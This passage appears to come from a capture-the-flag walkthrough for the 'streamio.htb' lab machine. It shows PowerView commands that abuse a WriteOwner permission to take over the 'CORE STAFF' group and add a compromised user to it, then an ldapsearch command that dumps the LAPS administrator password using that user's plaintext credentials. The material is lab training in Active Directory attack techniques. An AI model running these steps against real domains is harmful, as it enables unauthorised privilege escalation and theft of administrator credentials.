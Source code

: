 To abuse this we need to add JDgodd to the CORE STAFF group and then request the LAPS password of the administrator.

```powershell
# start powerview
. .\PowerView.ps1

# add JDgodd's password to PSCredential object
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# As JDgodd has WriteOwner ACL attributed to their account, we can set JDgodd as the domain object
Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity JDgodd -Cred $cred

# grant all rights via the ACL
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All

# add JDgodd into the CORE STAFF group that they now own.
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred

# Verify that JDgodd is a part of CORE STAFF group.
net group 'CORE STAFF'
```

## Extract the administrator password from LAPS

[This link | Dump LAPS password with ldapsearch](https://malicious.link/post/2017/dump-laps-passwords-with-ldapsearch/) features a good explanation of this process.

```sh
ldapsearch -h streamio.htb -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w
'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


